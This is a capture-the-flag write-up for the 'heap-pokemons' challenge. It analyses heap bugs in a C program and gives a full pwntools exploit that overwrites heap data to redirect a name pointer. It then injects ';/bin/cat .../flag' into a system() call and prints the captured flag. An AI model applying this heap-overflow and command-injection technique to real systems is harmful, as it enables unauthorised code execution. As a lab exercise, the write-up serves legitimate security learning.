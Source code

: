 # heap-pokemons

[library.m0unt41n.ch/challenges/heap-pokemons](https://library.m0unt41n.ch/challenges/heap-pokemons) ![](../../resources/pwn.svg) ![](../../resources/hard.svg) 

# TL;DR

Surprisingly simple (for a `hard`) heap exploitation challenge.

# Analysis

The server runs a [heap_pokemons.c](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/heap-pokemons/heap_pokemons.c) program, which allows
keeping track of 10 pokemons. We get them randomly assigned - and can add
own names to them. Then, printing the pokemon was *supposed* to do some
nice ASCII art, courtesy of a local copy of
[pokemonsay](https://github.com/possatti/pokemonsay).

... except that, well, it does not work - printing a pokemon fails
with `/usr/bin/pokemonsay: 8: ./pokemonsay.sh: Permission denied`
(visible in the Docker container). Reason: `/home/heappokemons/pokemonsay/*.sh`
don't have `+x` bit set. I'm still not sure whether this was intended - but,
in any case, does not prevent the exploitation.

## No ASLR

```c
checksec --file=heap_pokemons
RELRO   CANARY  NX       PIE  RPATH  RUNPATH  Symbols  Fortify
Parial  Found   Enabled  No   No     No       61       No
```

(confirmed with few test runs and peeking at `/proc/$PID/maps`)

## Bugs

*   `get_pokemon_index()` **allows entering `10`** as index.
    *   But all calls are guarded by `if(POKEMONS[pokemon_index] != 0)` so, unless
        we write something there using a different bug, that won't help.
*   `show_pokemon()` pulls name from statically initialized `pokemon_names`
    string array and `sprintf()`s that into a 100b string which then goes
    into `system()`.
    *   If we can get control of `pokemon_names`, **we can control the `system()` call**.
        Even if in its flawed part with the noexec issue above.    
*   `add_pokemon()`
    *   Looks for unused slot in POKEMONS. **If slot #9 is used, it will grab it anyway.**
    *   **We have control over chunk size** that gets allocated for new pokemon.
*   `edit_pokemon()`
    *   Ignores previous length, **we can overwrite up to +2048 bytes** starting from `name`.
*   `delete_pokemon()`
    *   **Does not free** the actual pokemon struct (leak?).



# Exploit

So, it would've been great to just overwrite the `sprinf()` format string, but that's
unfortunately in RODATA &#128578; But, the working solution is not very complex either:

*   We know (no PIE, confirmed with GDB) that the data segment offsets are fixed.
    Most importantly, `pokemon_names` is at `0x4040a0`.
*   With `edit_pokemon()` buffer overflow, we can arbitrarily write to heap, way beyond
    allocated chunks. Conveniently, the data is passed with `fgets()`, which lets the
    zeros through and stops only at `\n`.
*   We know that in `show_pokemon()`, the strings in `pokemon_names` list are passed to
    the `sprintf()` and then, to `system()`.

All that makes for a textbook heap exploit.


```python
#!/usr/bin/python3
import pwn

pwn.context(encoding='utf-8', log_level='warning')
io = pwn.remote('127.0.0.1', 1337)
```

First, let's create two small pokemons, taking the smallest size of heap chunk:

```python
io.sendlineafter("Input: ", "1")
io.sendlineafter("Pokemon Name Size: ", "16")
io.sendlineafter("New Pokemon Name: ", "AAAAAAAAAAAAAAA")

io.sendlineafter("Input: ", "1")
io.sendlineafter("Pokemon Name Size: ", "16")
io.sendlineafter("New Pokemon Name: ", "BBBBBBBBBBBBBBB")
```

How does the heap look like now? With [pwndbg](https://github.com/pwndbg/pwndbg)
and `vis_heap_chunks`:

![](heap.png "")

Importantly, the only thing that changes between runs are heap offsets - which we don't need here.

Next step is to "rename" pokemon #0 (`0xfb264c0`, in orange), to something creative:

```python
payload1  = b'AAAAAAAAAAAAAAA\x00'               # Keep the original name
payload1 += b'YYYYYYYY'                          # Overwrite chunk spare bytes
payload1 += b'\x21\x00\x00\x00\x00\x00\x00\x00'  # Preserve next chunk header
payload1 += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # POKEMONS[1]->pokemon_id = 0
payload1 += pwn.p64(0x4040a0)                    # POKEMONS[1]->name = &pokemon_names
io.sendlineafter("Input: ", "2")
io.sendlineafter("Pokemon Index: ", "0")
io.sendlineafter("New Pokemon Name: ", payload1)
```

We changed pokemon #1 to always have `pokemon_id=0` and the name to point to first string
in `pokemon_names`. The same that gets passed to `system(). Next step is to update that
string to something useful. Which we can now do by "renaming" pokemon #0:

```python
io.sendlineafter("Input: ", "2")
io.sendlineafter("Pokemon Index: ", "1")
io.sendlineafter("New Pokemon Name: ", ";/bin/cat /home/heappokemons/flag\0")
```

We now can "print" the pokemon #0. We expect it to:

*   fail the `pokemonsay` because of the noexec issue above
*   execute the `cat` and print the flag on the standard output

```python
io.sendlineafter("Input: ", "3")
io.sendlineafter("Pokemon Index: ", "1")
```

The only thing left is to collect the flag &#128578;

```python
io.recvuntil("cyberskills23{")
print("cyberskills23{"+io.recvuntilS("}"))
io.close()
```

This works both locally and vs remote instance. Full exploit: [exploit.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/heap-pokemons/exploit.py).

## Finding good payload for system()

I actually spent some time struggling to get `system()` to execute my second command.
Neither `/bin/sh` nor simple `cat` worked - after the failed `pokemonsay`, the
program was just exiting. Which was weird, because it *did* work in isolation:

```c
#include <stdio.h>
#include <stdlib.h>

char *pokemonsay_name="; echo yes";

int main(void) {
  char pokemonsay_cmd[100];
  sprintf(pokemonsay_cmd, "pokemonsay -p %s ohai", pokemonsay_name);
  system(pokemonsay_cmd); fflush(stdout);
}

$ ./test
sh: line 1: pokemonsay: command not found
yes ohai
```

I am still not sure what was the problem there. At some point I thought it's
because of `/bin/nologin` shell of the user. But then, the problem was
reproducible when running the server as root. I suspect something related to
the shell being interactive (with TTY etc) vs. simple standard I/O redirects.

---

## `cyberskills23{c4tch_p0k3m0ns_0n_h34p}`



<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
